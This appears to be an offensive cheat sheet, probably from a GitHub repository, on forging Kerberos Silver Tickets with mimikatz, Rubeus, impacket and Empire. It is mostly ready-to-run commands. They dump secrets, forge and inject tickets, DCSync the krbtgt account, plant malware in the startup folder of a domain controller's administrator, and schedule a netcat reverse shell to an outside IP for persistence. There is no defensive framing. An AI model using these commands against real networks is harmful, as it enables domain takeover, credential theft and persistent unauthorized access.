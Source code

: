 # SILVER TICKET

### Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

#### 1) 

    mimikatz.exe

#### 2) 
    privilege::debug

#### 3) 

    lsadump::lsa /inject /name:SERVICE/DOMAIN ADMIN

### 1) Create a ticket for the service

    mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:

    mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-134912914

### 2) Use same steps as a golden ticket

    mimikatz.exe "kerberos::golden /domain:DOMAIN /sid:DOMAIN_SID /rc4:HASH /user:USER /service:SERVICE /target:TARGET"

### Inject the ticket

    mimikatz.exe "kerberos::ptt TICKET_FILE"

    .\Rubeus.exe ptt /ticket:TICKET_FILE

### Obtain a shell

    .\PsExec.exe -accepteula \\TARGET cmd

## Silver Ticket on Linux

    python ticketer.py -nthash HASH -domain-sid DOMAIN_SID -domain DOMAIN -spn SERVICE_PRINCIPAL_NAME USER

    export KRB5CCNAME=/root/impacket-examples/TICKET_NAME.ccache 

    python psexec.py DOMAIN/USER@TARGET -k -no-pass

## Services to target with a Silver Ticket

### Service Type --> Service Silver Tickets --> Attack

#### 1) WMI --> HOST + RPCSS --> 

    wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"

#### 2) Powershell Remoting --> CIFS + HTTP + (wsman?) --> 

    New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 3) WinRM --> HTTP+ wsman --> 

    New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC

#### 4) Scheduled Tasks --> HOST --> 

    schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1"

#### 5) Windows File Share (CIFS) --> CIFS --> 

    dir \\dc01\c$

#### 6) LDAP operations including Mimikatz DCSync --> LDAP --> 

    lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt

#### 7) Windows Remote Server Administration Tools (RSAT) --> RPCSS + LDAP + CIFS --> /

# Silver Ticket Example

## Requirements: Machine account NTLM hash

### 1) Mimikatz

##### RC4

    Invoke-Mimikatz -Command '"kerberos::golden /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /target:dc01.security.local /service:CIFS /rc4:53b82af68b0faf6587971fe807fad960 /user:Viper /ptt"'

##### AES256

    Invoke-Mimikatz -Command '"kerberos::golden /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /target:dc01.security.local /service:CIFS /aes256:4d8daf60cf15651b283c9c180b04d4bd68a5b06592c0007697ae8de0700a21d5 /user:Viper /ptt"'

##### Open a new command prompt since we created and injected the ticket

    Invoke-Mimikatz -Command "misc::cmd"

##### Check if ticket has retained in the new session

    klist

##### List the C$ contents of our target

    dir \\DC01.domain.local\C$ (Cmd)

    ls -force \\DC01.domain.local\C$ (Powershell)

### 2) Rubeus

##### Forge and inject directly into the current process

    Rubeus.exe silver /service:cifs/dc01.security.local /aes256:f9647c8dba66c6576057167ab18d93582ea7fa1a8fd9b03b79d7d173644ff2e4 /user:Administrator /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /nowrap /ptt

OR

##### Forge and inject into new process (Cleaner)

# Forge silver ticket

    Rubeus.exe silver /service:cifs/dc01.security.local /aes256:f9647c8dba66c6576057167ab18d93582ea7fa1a8fd9b03b79d7d173644ff2e4 /user:Administrator /domain:security.local /sid:S-1-5-21-3601687231-1513629788-1757802677 /nowrap

##### Createnetonly process, username and password can be anything

    Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:Security.local /username:Administrator /password:NotRealPass

##### Take note of the LUID value of the output (IMPORTANT!). Inject the silver ticket into the new LUID session

    Rubeus.exe ptt /luid:0x12e0ab8 /ticket:doIFuj[...snip...]lDLklP

##### Impersonate the process token using the ProcessID from the output of the newly created process (Createnetonly)

    Invoke-SharpImpersonation -Command "pid:[PID]"

##### Check that the silver ticket has retained in our new shell process.

    klist

### 3) Empire C2

    powershell/credentials/mimikatz/silver_ticket

# Post Exploitation Techniques Examples

## Map drive

    net use Z: \\dc01.security.local\C$

## Copy malware to Domain Administrator startup folder on DC

    copy .\MaliciousFile.exe "\\dc01.security.local\c$\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"

## CMD 

    .\PsExec.exe -accepteula \\dc01.security.local cmd

## Netcat

    schtasks /create /sc minute /mo 1 /tn "Persistence" /tr 'c:\Users\Administrator\Downloads/nc.exe 10.10.10.10 443 -e cmd.exe'

# Other ticket combinations

| Technique           | Required Service Ticket |
|---------------------|--------------------------|
| PSexec              | CIFS                     |
| WinRm               | HOST & HTTP              |
| DCSync (DCs only)   | LDAP                     |
